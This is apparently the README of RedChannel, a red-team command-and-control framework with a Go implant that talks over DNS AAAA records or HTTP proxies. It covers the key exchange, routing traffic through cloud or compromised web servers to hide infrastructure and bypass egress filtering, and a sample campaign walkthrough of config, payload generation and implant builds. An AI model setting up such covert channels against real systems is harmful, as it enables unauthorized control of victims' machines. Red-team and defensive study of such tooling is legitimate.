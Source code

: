 # RedChannel C2

RedChannel is a simple end-to-end encrypted implant for red teams, written in JavaScript (server) and Go (agent).

The primary means of communication between agents and their C2 is DNS, but proxying through an HTTP endpoint is also possible. RedChannel uses AAAA records for data transmission and does not rely on TXT records.

## Key Exchange and Session Encryption

Before any data or commands are received, C2 must initiate a key exchange with new agents.

* C2 generates an EC keypair and forwards it's public key to the Agent
* Agent generates its own EC keypair and forwards it to the C2
* Using ECDH, both C2 and Agent compute the same shared secret
* The shared secret is combined with the campaign password to derive an AES key
* All subsequent communication will be encrypted with the derived AES key.
    * A per-encryption block-sized IV is generated and prepended to the encrypted buffer

The C2 can at any point reinitiate the key exchange, invalidating keys used to encrypt and decrypt past traffic and data.

## Proxying Traffic Through HTTP

RedChannel can switch its communication method from DNS to HTTP by using proxy somewhere on the Internet. The benefit of this is primarily speed. DNS communication is very slow, especially if the communication interval is high. Since the proxy payload can be hosted on any third-party server and it is polled by both the implant and the C2, we can effectively tunnel C2 requests through Tor or a VPN, hiding the red team infrastructure. 

The key exchange and session encryption still apply, but instead of issuing DNS queries, agents will instead upload these encrypted blobs to the defined proxy endpoint. The C2 will query this endpoint periodically for data from agents and process it accordingly. 

### Proxy communication via cloud hop
The proxy payload can be uploaded to something like Google Cloud, Amazon or Azure and used as a hop for communication. This eliminates the need to find good domains and manage certificates and it also masks your primary C2 infrastructure. 
```
(target [agent]) ---> (cloud: [https://url/proxy.php]) <--- (red team: [c2])
```
### Proxy communication via target environment hop

Another option is to leverage an internally compromised web server which is exposed to the Internet (eg: some WordPress blog). This would allow fast communication with the C2 via HTTP while also bypassing any egress proxy filtering on the agent host.
```
(target [agent] ---> [https://url/proxy.php]) <--- (red team: [c2])
```

## Configuration

A sample configuration file is available in `./conf/redchannel.conf.sample`. Use this as a template to create campaign configs. These must be properly formatted JSON files.

The master password is set either via the `--password` command-line switch or using the environment variable `RC_PASSWORD`. This value is required.

The agent source code must also be available in the `./agent/` subfolder: ```git submodule update --recurse```

RedChannel will use the `./agent/config/config.go.sample` as a template to build the agent using C2 configuration data (password, c2 domain, etc).

## Running

Command-line switches are available to overwrite configuration values. 

```c
$ git clone --recurse-submodules https://github.com/slackr/redchannel
$ cd redchannel
$ vim ./conf/redchannel.conf
$ node app.js --help
...
```

### Sample Campaign

*Target:* Contoso
*Red Team C2 domain:* redteam.int
*Proxy URL:* https://uber-red-team.azurewebsites.net/proxy.php

* Create `NS` record for `uber.redteam.int` pointing to `ns1.redteam.int`
* Create `A` record for `ns1.redteam.int` pointing to the C2 external `ip` or `socat` forwarder

Create a `./config/campaigns/contoso.conf` (see `conf/redchannel.conf.sample`)
```json
{
    "c2": {
        "domain": "uber.redteam.int",
        "dns_ip": "0.0.0.0",
        "dns_port": 53,
        "web_ip": "127.0.0.1",
        "web_port": 4321,
        "binary_route": "/setup.exe",
        "web_url": "http://uber.redteam.int"
    },
    "proxy": {
        "enabled": false,
        "key": "contoso_proxy_key",
        "interval": 2000,
        "url": "https://uber-red-team.azurewebsites.net/proxy.php"
    },
    "static_dns": {
        "uber.redteam.int": "172.16.1.1"
    }
    ...
}
```

Launch the C2:
```RC_PASSWORD=supersecret node app.js --config ./config/campaigns/contoso.conf```

Generate proxy payload and enable proxy communicaton:

```c
> use proxy
proxy> generate
// proxy payload is displayed, to be uploaded to the proxy server (https://uber-red-team.azurewebsites.net/proxy.php)
proxy> set enabled 1
```

Build the implant binary:

```c
> use implant
implant> set os linux
implant> set arch amd64
implant> set interval 2000
implant> set resolver 1.1.1.1:53
implant> build
* building agent for os: linux, arch: amd64, binary will be available here: [path] and [web_url/binary_route]
// pull the current build log with 'log'
implant> log
// shows the active build log, lots of output...
```
